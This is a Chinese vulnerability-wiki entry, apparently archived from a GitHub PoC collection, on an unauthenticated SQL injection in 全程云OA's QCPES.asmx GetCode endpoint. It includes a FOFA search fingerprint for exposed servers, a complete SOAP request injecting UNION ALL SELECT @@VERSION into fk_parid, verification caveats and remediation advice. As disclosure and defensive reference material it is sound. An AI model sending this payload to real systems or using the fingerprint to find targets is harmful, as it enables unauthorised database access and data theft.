

# 全程云OA QCPES.asmx GetCode SQL注入

## 条目说明

- 对象与具体问题：全程云OA；QCPES.asmx GetCode SQL注入
- 版本、配置及部署条件：未给版本；SQL Server @@VERSION
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- SOAP fk_parid样本明确，但响应仅截图
- Content-Length:length为占位需说明；HTTP缺围栏

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

全程云OA系统QCPES.asmx接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

全程云OA

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="images/yipeoplehover.png"

POC/EXP：

```http
POST /OA/PES/QCPES.asmx HTTP/1.1
Host: 127.0.0.1
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetCode"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetCode xmlns="http://tempuri.org/">
      <fk_parid>1' UNION ALL SELECT @@VERSION-- oCWH</fk_parid>
      <value>1</value>
    </GetCode>
  </soap:Body>
</soap:Envelope>
```

> 请求长度说明：原资料 Content-Length 为 length；保留原始标头；其数值未据实际请求体重新计算或验证。





## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
